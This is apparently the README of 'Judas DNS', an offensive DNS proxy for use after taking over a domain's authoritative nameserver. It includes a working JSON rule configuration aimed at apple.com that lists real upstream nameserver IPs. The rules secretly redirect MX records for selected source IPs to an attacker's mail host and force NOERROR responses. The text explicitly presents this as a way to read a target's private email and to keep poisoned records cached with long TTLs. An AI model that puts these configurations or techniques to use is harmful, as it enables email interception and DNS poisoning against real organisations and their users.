 # Judas DNS
A DNS proxy server built to be deployed in place of a taken over nameserver to perform targeted exploitation. Judas works by proxying all DNS queries to the legitimate nameservers for a domain. The magic comes with Judas's rule configurations which allow you to change DNS responses depending on source IP or DNS query type. This allows an attacker to configure a malicious nameserver to do things like selectively re-route inbound email coming from specified source IP ranges (via modified MX records), set extremely long TTLs to keep poisoned records cached, and more.

# Example Config
The following is an example configuration for Judas for an example scenario where an attacker has comprimised/taken over one of Apple's authoritative nameservers (for `apple.com`):

```json
{
    "version": "1.0.0",
    "port": 2248,
    "dns_query_timeout": 10000,
    "target_nameservers": [ "17.254.0.59", "17.254.0.50", "17.112.144.50", "17.112.144.59", "17.171.63.30", "17.171.63.40", "17.151.0.151", "17.151.0.152" ],
    "rules": [
        {
            "name": "Secretly redirect all emails coming from 127.0.0.1!",
            "query_type_matches": [ "MX" ],
            "ip_range_matches": [ "127.0.0.1/32" ],
            "modifications": [
                {
                    "answer": [
                        {
                            "name": "apple.com",
                            "type": 15,
                            "class": 1,
                            "ttl": 10,
                            "priority": 10,
                            "exchange": "hacktheplace.localhost"
                        }
                    ]
                }
            ]
        },
        {
            "name": "Make all responses NOERROR even if they've failed.",
            "query_type_matches": [ "*" ],
            "modifications": [
                {
                    "header": {
                        "rcode": 0
                    }
                }
            ]
        }
    ]
}
```
The above configuration value purposes are the following:

* `version`: The configuration file format version (for now is always `1.0.0`).
* `port`: The port Judas should run on.
* `dns_query_timeout`: How long to wait in milliseconds before giving up on a reply from the upstream target nameserver.
* `target_nameservers`: The legit nameservers for your target domain, all DNS queries will be sent here from Judas on behalf of all requesting clients.
* `rules`: A list of rules with modifications to the DNS response to apply if matched.
	* `name`: Name of a given rule.
	* `query_type_matches`: List of query types to match on such as `CNAME`, `A`, etc. A wildcard (`*`) can also be specified to match any query type.
	* `ip_range_matches`: List of IP ranges to match on. For selectively spoofing responses to a specific range of IPs.
	* `modifications`: See the "Modifications" section of this README.

# Modifications
Judas's rules come with a `modifications` specification which is set to a list of varying modifications to make to the DNS response before it is sent back to the client. It is important that you read the [`node-dns` documentation](https://github.com/tjfontaine/node-dns#packet) to understand the DNS response structure so you can modify it.

An example DNS response format is the following:

```json
{ header: 
   { id: 25373,
     qr: 1,
     opcode: 0,
     aa: 1,
     tc: 0,
     rd: 1,
     ra: 0,
     res1: 0,
     res2: 0,
     res3: 0,
     rcode: 5 },
  question: [ { name: 'apple.com', type: 2, class: 1 } ],
  answer: 
   [ { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver4.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver3.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver5.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver6.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns1.apple.com' } ],
  authority: [],
  additional: [],
  edns_options: [],
  payload: undefined,
  address: undefined,
...trimmed for brevity...
```
(For more information on the DNS response data structure see [this documentation](https://github.com/tjfontaine/node-dns#packet).)

Writing a modification is very simple, an example rule with modification can be seen below:

```json
{
  "name": "Make all responses NOERROR even if they've failed.",
  "query_type_matches": [ "*" ],
  "modifications": [
    {
      "header": {
        "rcode": 0
      }
    }
  ]
}
```

The above rule matches any query type (due to the wildcard (`*`)) and sets the `header.rcode` value of the DNS response to `0`. Whatever object is set as a modification element is merged into the DNS response - replacing whatever value was originally set.

Another example is the following:

```json
{
  "name": "Secretly redirect all emails coming from 127.0.0.1!",
  "query_type_matches": [ "MX" ],
  "ip_range_matches": [ "127.0.0.1/32" ],
  "modifications": [
    {
      "answer": [
        {
          "name": "apple.com",
          "type": 15,
          "class": 1,
          "ttl": 10,
          "priority": 10,
          "exchange": "hacktheplace.localhost"
        }
      ]
    }
  ]
}
```

The above rule matches any `MX` query from `127.0.0.1`. The DNS response's answer is overwritten with a single MX record for `hacktheplace.localhost`. A real world implementation of this would be to redirect inbound emails from a specific IP in order to read private emails of your target. Additionally an attacker in a real world scenario may also choose to modify the response TTL to be a very high value in order to persist their malicious records in client DNS caches as long as possible.